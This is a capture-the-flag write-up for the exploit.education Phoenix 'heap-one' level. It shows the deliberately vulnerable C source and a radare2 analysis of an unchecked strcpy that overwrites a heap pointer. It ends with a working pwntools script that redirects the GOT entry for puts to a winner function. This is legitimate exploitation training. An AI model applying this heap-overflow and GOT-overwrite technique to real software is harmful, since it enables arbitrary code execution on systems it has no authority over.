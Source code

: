```yaml
---
description: 'http://exploit.education/phoenix/heap-one/'
---
```


# heap1

## Source

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <time.h>
#include <unistd.h>

struct heapStructure {
  int priority;
  char *name;
};

int main(int argc, char **argv) {
  struct heapStructure *i1, *i2;

  i1 = malloc(sizeof(struct heapStructure));
  i1->priority = 1;
  i1->name = malloc(8);

  i2 = malloc(sizeof(struct heapStructure));
  i2->priority = 2;
  i2->name = malloc(8);

  strcpy(i1->name, argv[1]);
  strcpy(i2->name, argv[2]);

  printf("and that's a wrap folks!\n");
}

void winner() {
  printf(
      "Congratulations, you've completed this level @ %ld seconds past the "
      "Epoch\n",
      time(NULL));
}
```

## Analysis

This program:

* Allocates a chunk on the heap for the `heapStructure`
* Allocates another chunk on the heap for the `name` of that `heapStructure`
* Repeats the process with another `heapStructure`
* Copies the two command-line arguments to the `name` variables of the `heapStructures`
* Prints something

### Regular Execution

Let's break on and after the first `strcpy`.

```text
$ r2 -d -A heap1 AAAA BBBB
```

![](../../.gitbook/assets/image%20%287%29.png)

As we expected, we have two pairs of `heapStructure` and `name` chunks. We know the `strcpy` will be copying into wherever `name` points, so let's read the contents of the first `heapStructure`. Maybe this will give us a clue.

![](../../.gitbook/assets/image%20%288%29.png)

Look! The `name` pointer points to the `name` chunk! You can see the value `0x602030` being stored.

This isn't particularly a revelation in itself - after all, we **knew** there was a pointer in the chunk. But now we're certain, and we can _definitely_ overwrite this pointer due to the lack of bounds checking. And because we can also control the value being **written**, this essentially gives us an arbitrary write!

And where better to target than the GOT?

## Exploitation

The plan, therefore, becomes:

* Pad until the location of the pointer
* Overwrite the pointer with the GOT address of a function
* Set the second parameter to the address of `winner`
* Next time the function is called, it will call `winner` 

But what function should we overwrite? The only function called after the `strcpy` is `printf`, according to the source code. And if we overwrite `printf` with `winner` it'll just recursively call itself forever.

Luckily, compilers like `gcc` compile `printf` as `puts` if there are no parameters - we can see this with radare2:

```text
$ r2 -d -A heap1
$ s main; pdf
[...]
0x004006e6      e8f5fdffff     call sym.imp.strcpy         ; char *strcpy(char *dest, const char *src)
0x004006eb      bfa8074000     mov edi, str.and_that_s_a_wrap_folks ; 0x4007a8 ; "and that's a wrap folks!"
0x004006f0      e8fbfdffff     call sym.imp.puts
```

So we can simply overwrite the GOT address of `puts` with `winner`. All we need to find now is the padding until the pointer and then we're good to go.

```text
$ ragg2 -P 200 -r
AABAA...
```

```text
$ r2 -d -A heap1 AAABAA... 0000
```

Break on and after the `strcpy` again and analyse the second chunk's `name` pointer.

![](../../.gitbook/assets/image%20%286%29.png)

The pointer is originally at `0x8d9050`; once the strcpy occurs, the value there is `0x41415041414f4141`.

```text
[0x004006cd]> wopO 0x41415041414f4141
40
```

The offset is **40**.

### Final Exploit

```python
from pwn import *

elf = context.binary = ELF('./heap1', checksec=False)

param1 = (b'A' * 40 + p64(elf.got['puts'])).replace(b'\x00', b'')
param2 = p64(elf.sym['winner']).replace(b'\x00', b'')

p = elf.process(argv=[param1, param2])

print(p.clean().decode('latin-1'))
```

Again, null bytes aren't allowed in parameters so you have to remove them.

